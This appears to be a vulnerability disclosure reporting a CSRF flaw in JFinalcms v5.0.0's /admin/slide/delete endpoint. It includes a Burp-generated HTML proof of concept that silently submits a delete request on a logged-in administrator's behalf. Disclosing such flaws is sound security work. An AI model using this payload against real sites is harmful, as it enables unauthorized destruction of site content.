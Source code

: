 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/slide/delete

![image](https://github.com/li-yu320/cms/assets/54130055/7d1a084b-02fa-4a3a-8bbc-65aa8de433f0)

create poc

![image](https://github.com/li-yu320/cms/assets/54130055/a67e8ad4-738f-4194-b9d4-76f75c468700)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/slide/delete" method="POST">
      <input type="hidden" name="ids" value="84" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![image](https://github.com/li-yu320/cms/assets/54130055/201f928e-57a3-4e42-a52b-82ac9ec369bf)
